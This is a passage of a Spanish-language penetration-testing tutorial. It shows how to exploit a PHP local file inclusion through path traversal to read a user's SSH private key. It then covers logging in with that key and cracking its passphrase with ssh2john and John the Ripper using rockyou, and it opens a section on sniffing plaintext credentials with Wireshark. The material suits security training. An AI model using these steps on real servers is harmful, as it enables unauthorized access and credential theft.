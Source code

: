        ```arduino
       http://example.com/index.php?page=home.php
       ```
   * Si el parámetro no valida correctamente la entrada, puede ser posible manipularlo para navegar a directorios fuera del alcance de la aplicación mediante **ruta transversal**.
2.  **Pruebas de Ruta Transversal para Acceso a `id_rsa`:**

    * La clave privada SSH de un usuario en Linux suele estar en el directorio `~/.ssh/id_rsa`.
    *   Puedes probar la siguiente solicitud LFI para intentar acceder a este archivo:

        ```bash
        http://example.com/index.php?page=../../../../home/username/.ssh/id_rsa
        ```

    > **Nota:** El número de `../` (directorios hacia arriba) depende de la ubicación relativa del archivo PHP en el sistema. Puedes necesitar probar diferentes combinaciones.
3. **Evaluar la Respuesta:**
   * Si el servidor no tiene protecciones adecuadas y la vulnerabilidad está presente, deberías ver el contenido del archivo `id_rsa` en la respuesta. Este contenido es la clave privada en texto, que típicamente empieza con `-----BEGIN RSA PRIVATE KEY-----` y termina con `-----END RSA PRIVATE KEY-----`.
   * Copia cuidadosamente todo el contenido si aparece en la respuesta.
4. **Utilizar la Clave Privada (id\_rsa):**
   * Si el atacante consigue el archivo `id_rsa`, puede intentar utilizarlo para acceder al servidor vía SSH.
   *   Para hacerlo, el archivo debe tener permisos restringidos. Guárdalo en tu máquina local y cambia los permisos a `600`:

       ```bash
       chmod 600 id_rsa
       ```
   *   Luego, intenta conectarte al servidor con el comando SSH:

       <pre class="language-bash"><code class="lang-bash"><strong>ssh -i id_rsa username@target_server
       </strong></code></pre>

Como nos pide una contraseña del archivo `id_rsa` hay que usar por tanto **John**.

```bash
ssh2john id_rsa > hash
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## Uso de Wireshark para Interceptar Credenciales de Protocolos Vulnerables

Wireshark es una herramienta de análisis de red que permite interceptar y analizar el tráfico de red en tiempo real. Como **sniffer**, Wireshark captura paquetes de datos que se transmiten a través de la red, y es especialmente útil para auditar y descubrir vulnerabilidades en los protocolos de comunicación. Cuando se utilizan protocolos no seguros o vulnerables, como **HTTP, FTP, Telnet o POP3**, es posible interceptar credenciales y otros datos sensibles, ya que estos protocolos transmiten información en texto plano.
